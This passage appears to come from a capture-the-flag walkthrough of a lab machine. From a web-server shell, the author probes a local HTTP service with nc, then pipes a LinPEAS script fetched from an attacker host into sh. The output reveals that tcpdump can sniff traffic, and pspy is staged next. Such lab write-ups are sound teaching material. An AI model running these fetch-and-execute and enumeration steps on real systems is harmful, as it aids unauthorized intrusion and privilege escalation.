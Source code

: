 ```shell
        <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
    </body>
</html>
```

By using `nc` to connect to port 1027, we found that it's a HTTP service.

**Let's send a raw GET request to `/`:**
```shell
www-data@incognito:/var/www/html$ nc -nv 127.0.0.1 1027
Connection to 127.0.0.1 1027 port [tcp/*] succeeded!
GET / HTTP/1.1

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 25
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 11 Jan 2023 08:49:42 GMT

Only Talking to Root User
```

Cool. 

**However, before using `chisel` to do port forwarding, let's use LinPEAS:**
```shell
┌──(root🌸siunam)-[/usr/share/peass/linpeas]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
www-data@incognito:/var/www/html$ curl -s http://10.9.0.253/linpeas.sh | sh
[...]
╔══════════╣ Can I sniff with tcpdump?
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sniffing
You can sniff with tcpdump!
[...]
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
[...]
Files with capabilities (limited to 50):
/usr/sbin/tcpdump = cap_net_raw+ep
[...]
```

**I can sniff traffic with `tcpdump`?**

**I also run `pspy` on the target machine:**
```shell
┌──(root🌸siunam)-[/opt/pspy]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

